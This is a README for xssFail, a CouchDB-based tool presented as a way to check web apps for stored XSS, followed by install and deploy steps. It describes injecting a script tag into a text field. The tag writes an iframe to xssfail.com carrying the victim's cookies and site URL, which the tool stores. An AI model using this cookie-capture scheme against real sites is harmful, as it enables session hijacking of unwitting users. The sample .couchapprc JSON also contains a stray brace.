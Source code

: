 ## Who is this project for?

If you know about [xss(Cross-site scripting)](http://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, and want to check whether you web app is secure enough, this project is for YOU!
There are 2 options:
1. Install standalone app to avoid losing sensitive data.
2. Use online app - [xssFail.com](http://xssfail.com)

## How does it work?

1. You inject script (<script src="..."></script>) into target text field and save it. Any text field could be used (Product name, User name, Login, Address etc.). Let's say you use "Product" field.
2. UserA opens page with list of products with product you've injected.
3. If html engine doesn't encode strings UserA will get javascript executed.
4. Injected javascript code writes (document.write) the following tag: <iframe src="http://xssfail.com/form?param1=&param2=&paramN=" /> where param1, param2, paramN - all information about UserA (including browser cookies, site url etc.)
5. After iframe is loaded it executes script which saves info from URL (param1, param2, param3) into CouchDb database.
6. You can go to xssfail.com and search for "WINNERS".

## How to install standalone app?

## Before you start

Before you start using this app, it's necessary to:
1. [Install CouchDB](http://wiki.apache.org/couchdb/Installation) v.1.1.x or greater. More info about couchDB [here](http://wiki.apache.org/couchdb/).
2. [Install CouchApp](http://couchapp.org/page/installing). More info about couchApp [here](http://couchapp.org/page/index).

CouchApps are web applications which can be served directly from [CouchDB](http://couchdb.apache.org).
This gives them the nice property of replicating just like any other data stored in CouchDB.
They are also simple to write as they can use the built-in jQuery libraries and plugins that ship with CouchDB.

## Deploying this app

Assuming you just cloned this app from git,
and you have changed into the app directory in your terminal, you want to push it to your CouchDB with the CouchApp command line tool, like this:

    couchapp push . http://name:password@localhost:5984/xss

If you don't have a password on your CouchDB (admin party) you can do it like this (but it's a bad, idea, set a password):

    couchapp push . http://localhost:5984/xss

If you get sick of typing the URL, you should setup a `.couchapprc` file in the root of your directory.
Remember not to check this into version control as it could have passwords in it.

The `.couchapprc` file should have contents like this:

    {
        "default" : {
          "db" : "http://localhost:5984/xss"
        }
      }
    }

Now that you have the `.couchapprc` file set up, you can push your app to the CouchDB as simply as:

    couchapp push

This pushes to the `default` as specified.

    go to [http://localhost:5984/xss/_design/api/_views/index](http://localhost:5984/xss/_design/api/_views/index) to open default UI page
    go to [http://localhost:5984/_utils](http://localhost:5984/_utils) to open database UI manager - [http://wiki.apache.org/couchdb/Getting_started_with_Futon](Futon)
